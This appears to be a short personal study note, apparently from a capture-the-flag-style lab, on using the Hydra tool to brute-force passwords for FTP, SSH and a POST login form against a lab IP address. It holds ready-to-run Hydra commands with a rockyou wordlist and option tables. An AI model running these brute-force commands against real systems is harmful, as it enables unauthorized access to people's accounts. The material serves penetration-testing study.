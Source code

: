 Password cracking with hydra

## ssh

Hydra Commands

The options we pass into Hydra depend on which service (protocol) we’re attacking. For example, if we wanted to brute force FTP with the username being user and a password list being passlist.txt, we’d use the following command:

`hydra -l user -P passlist.txt ftp://10.10.125.84`

For this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method). SSH

`hydra -l <username> -P <full path to pass> 10.10.125.84 -t 4 ssh`

|Option|Description|
|---|---|
|`-l`|specifies the (SSH) username for login|
|`-P`|indicates a list of passwords|
|`-t`|sets the number of threads to spawn|

`hydra -l <username> -P <full path to pass> 10.10.125.84 -t 4 ssh`

## [](https://github.com/nxtbz/obsidian_notes/blob/babd6ef6cd34a446508db0212c2c13d5f6d94d3d/TOOLS/hydra.md#webform)webform

|Option|Description|
|---|---|
|`-l`|the username for (web form) login|
|`-P`|the password list to use|
|`http-post-form`|the type of the form is POST|
|`<path>`|the login page URL, for example, `login.php`|
|`<login_credentials>`|the username and password used to log in, for example, `username=^USER^&password=^PASS^`|
|`<invalid_response>`|part of the response when the login fails|
|`-V`|verbose output for every attempt|

`hydra -l <username> -P <wordlist> <IP> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

`hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.125.84 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`